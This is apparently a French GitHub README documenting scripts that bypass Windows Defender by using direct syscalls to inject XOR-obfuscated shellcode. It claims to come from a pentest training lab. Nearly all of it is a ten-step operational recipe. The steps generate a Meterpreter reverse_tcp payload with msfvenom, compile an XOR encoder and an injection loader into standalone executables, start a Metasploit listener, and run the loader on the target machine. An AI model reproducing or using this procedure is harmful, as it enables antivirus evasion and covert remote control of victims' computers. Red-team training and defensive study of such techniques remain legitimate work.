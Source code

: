 # Documentation du malware qui bypass les antivirus

Scripts permettant de contourner la protection antivirale de Windows Defender via la technique de Direct Syscalls avec une injection de shellcode préalablement obfusqué avec un fonction XOR.



Ces derniers ont été utilisés dans un lab d'entrainement au pentest et ne sont pas prévus pour être utilisés en dehors de ce cadre.

<br /><br />
-----------------------------------------------------
<br />



<h2 align="center">Bypass-AV-DirectSyscalls</h2>

  <p align="center">
    Ce projet est basé sur le dépôt Github de chvancooten :
    <br />
    <a href="https://github.com/chvancooten/OSEP-Code-Snippets"><strong>https://github.com/chvancooten/OSEP-Code-Snippets</strong></a>
  </p>
</div>

<br /><br />





### Utilisation

1. Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Créer un nouveau projet DotNet dans Visual Studio Code :
```  
dotnet new console
```
3. Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom
4. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
5. Exécuter le fichier compilé dans une invite de commande :
```
.\XorCipher.exe
```
6. Créer un second projet DotNet dans une autre instance de Visual Studio Code :
```
dotnet new console
```
7. Remplacer le contenu de Program.cs par le contenu du fichier DirectSyscalls.cs et remplacer le shellcode par celui généré avec XorCipher.exe
8. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Lancer un listener dans la console metasploit :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Exécuter le fichier DirectSyscalls.exe sur le poste cible :)

-----------------------------------------------------------------------------------

 
